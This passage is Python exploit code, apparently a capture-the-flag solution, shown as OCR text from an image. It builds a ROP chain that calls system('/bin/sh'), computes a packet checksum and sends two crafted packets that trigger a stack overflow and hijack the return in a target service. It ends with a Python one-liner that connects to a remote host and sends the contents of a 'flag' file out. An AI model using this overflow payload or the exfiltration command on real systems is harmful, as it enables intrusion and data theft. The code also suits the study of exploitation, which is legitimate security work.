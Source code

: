 ```python
        pop_esi,
        0xdeadbeef, 0xdeadbeef, 0xdeadbeef,
        0xdeadbeef, 0xdeadbeef,
        symbol_buffer,  # rsi -> 'func'
        0xdeadbeef,

        dlsym_with_call,    # dlsym(handle, 'func')
                            # func(rbx(args[0]), r12(args[1]))
    ]

rop = []
make_string('/bin/sh\x00', offset=0x20)
call_func('system', [symbol_buffer + 0x20, 0])  # system('/bin/sh')
rops = flat(rop)

# calculate checksum
def checksum(data, length):
    sum = 0
    for i in xrange(length / 2):
        num = int(data[i * 2:i * 2 + 2][::-1].encode('hex'), 16)
        sum = (sum + num) % (2**32)
        if sum & (2**31):
            sum = ((sum & (2**16 - 1)) + (sum >> 16)) % (2**32)
    while (sum >> 16) != 0:
        sum = ((sum & (2**16 - 1)) + (sum >> 16)) % (2**32)
    return 2**16 - 1 - sum

# first package, trigger stack overflow
payload = p8(0x54)
payload += 'A' * 5
payload += p16(0x3048 | 0x02)   # 0x3048 return@LauncherMain, 2 non-fragmentation
payload += p8(1)                # valid
payload += p8(0x11)             # _0x11
payload += '\x00\x00'           # checksum placeholder
payload = payload.ljust(0x18, 'A')
payload += rops                 # package body data
payload = payload.replace('\x00\x00', p16(checksum(payload, 0x14)), 1)

print 'sending first package to trigger stack overflow'
p.send(p32(len(payload)))
p.send(payload)

# second package, trigger return at LauncherMain
payload = p8(0x54) + 'A'
payload += p16(0x10)        # total_length == body_length
payload += 'AA'
payload += p16(0x4)         # 4 last fragmenataion?
payload += p8(1)            # valid
payload += p8(0x11)         # _0x11
payload += '\x00\x00'       # checksum placeholder
payload = payload.ljust(0x18, 'A')
payload += 'A' * 0x10       # body, 0x10
payload = payload.replace('\x00\x00', p16(checksum(payload, 0x14)), 1)

print 'sending second package to trigger return@LauncherMain'
p.send(p32(len(payload)))
p.send(payload)

print 'sending reverse shell command to read the flag'
reverse_shell_command = """
python -c "import socket,subprocess;s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect(('{}', {}));s.send(subprocess.check_output(['cat', 'flag']))"
""".format(raddr, rport).strip()
```